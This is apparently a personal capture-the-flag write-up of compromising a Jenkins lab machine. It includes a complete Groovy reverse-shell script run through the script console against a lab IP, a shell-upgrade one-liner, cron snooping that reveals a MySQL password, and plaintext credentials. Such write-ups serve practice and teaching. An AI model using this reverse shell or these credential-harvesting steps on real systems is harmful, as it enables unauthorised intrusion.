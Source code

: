 `Admin_129834765:SamsungOctober102030`

## It's getting hot in here

We find the flag in `C:\Users\jbercov\Desktop`

## Very well, sir

We find the in the FLAG_HERE script?? or smn

Now we open the `script console`  and try to get a reverse shell from the groovy script, we found a ton of reverse shell scripts on google for groovy.

```Groovy
Thread.start {
String host="10.10.14.23";

int port=4242;

String cmd="bash";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```

and we just run this with a listener on our machine. If the target was a windows one we would've used `String cmd="cmd.exe";`

For an interactive shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

We're logged in as jenkins so we try to do horizontal priv esc and just run `pspy64` for cronjobs and we find this.

![[Pasted image 20211006182941.png]]

```bash
2021/10/06 05:57:01 CMD: UID=0    PID=8718   | /bin/sh -c /bin/bash mysql -u ian -p VPN123ZXC
```

We found ian creds running a mysql cron and we switch user

## We're going round in circles

We do the same shit we do for user recon

```bash
id
sudo -l
crontab -l 
sudo --version
uname -a
```
